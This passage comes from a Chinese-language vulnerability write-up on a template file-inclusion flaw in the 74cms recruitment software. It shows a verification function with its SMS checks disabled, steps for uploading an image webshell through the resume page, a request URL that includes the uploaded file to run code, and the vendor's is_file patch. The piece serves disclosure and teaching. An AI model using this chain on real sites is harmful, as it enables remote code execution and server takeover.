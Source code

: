 ```
function verify_mobile($mobile,$smsVerify,$vcode_sms){
//    if(!$vcode_sms) return '请输入验证码！';
//    $verify_num = session('_verify_num_check');
//    if($verify_num >= C('VERIFY_NUM_CHECK')) return '非法操作！';
//    if(!fieldRegex($mobile, 'mobile')) return '手机号格式错误！';
//    if(!$smsVerify) return '短信验证码错误！';
//    if($mobile != $smsVerify['mobile']) return '手机号不一致！';
//    if(time() > $smsVerify['time'] + 600) return '短信验证码已过期！';
//    $mobile_rand = substr(md5($vcode_sms), 8, 16);
//    if($mobile_rand != $smsVerify['rand']){
//        session('_verify_num_check',++$verify_num);
//        return '短信验证码错误！';
//    }
//    session('_verify_num_check',null);
    return true;
}

```

#### step2 构造图片马并上传

注册完成账号之后就可以在简历界面上传自己构造的图片马，需要注意的是图片马也需要包含上文中的模板标签

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6s0gib9Yq2dPlIuE5CuO65iaXVeRdsS7ezUkFxPs1ltsNErduTdDkRZnYsNVOsuyiajzPRArUTA1Yfg/640?wx_fmt=png)

#### step3 构造请求访问此文件

构造上文类似的 Payload 去包含此文件即可执行恶意代码

```
74cms.net/index.php?m=home&a=assign_resume_tpl&variable=1&tpl=./data/upload/resume_img/2101/21/6008e8636d20e.png

```

### **3. 通过文档简历上传**

与方法 2 中的图片马一样，只是此处需要上传的是 doc 文件

  

05

漏洞修复

官方发布的补丁程序有两处

#### 1.BaseController

在 /Application/Common/Controller/BaseController.class.php 中的 assign_resume_tpl 增添了如下判断

```
public function assign_resume_tpl($variable,$tpl){
    foreach ($variable as $key => $value) {
        $this->assign($key,$value);
    }
    if(!is_file($tpl)){
        return false;
    }
    return $this->fetch($tpl);
}

```
